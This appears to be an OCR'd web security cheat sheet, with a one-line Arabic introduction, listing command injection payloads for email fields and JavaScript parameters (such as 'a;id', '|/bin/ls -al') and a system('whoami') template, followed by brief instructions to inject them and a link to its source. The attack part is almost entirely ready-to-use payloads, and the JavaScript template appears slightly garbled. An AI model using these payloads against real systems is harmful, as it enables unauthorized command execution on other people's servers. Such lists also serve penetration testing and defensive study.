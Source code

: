 إليك تنظيم النقاط بشكل نصي عادي ومنظم:

---

### **Command Injection Techniques**

#### **1. Testing in Links**
- **Email Command Injection**:
  ```bash
  $command@mailbox.com
  `$command`@mailbox.com
  `command`@mailbox.com
  ```

#### **2. Parameter Found in JavaScript**
- **Command Injection Payloads**:
  ```bash
  a);id
  a;id
  a);id;
  a;id;
  a);id|
  a;id|
  a)|id
  a|id
  a)|id;
  a|id
  |/bin/ls -al
  a);/usr/bin/id
  a;/usr/bin/id
  ```

#### **3. JavaScript Command Injection**
- **System Command Execution**:
  ```bash
  ` ${
  @print
  (system('whoami'))} `
  ```

---

### **How to Use This Information**
1. **Email Command Injection**:
   - Test for command injection vulnerabilities in email fields by injecting commands.

2. **JavaScript Parameter Injection**:
   - Use the provided payloads to test for command injection vulnerabilities in JavaScript parameters.

3. **System Command Execution**:
   - Inject system commands in JavaScript contexts to execute arbitrary commands.

---
- https://sallam.gitbook.io/sec-88/web-appsec/command-injection

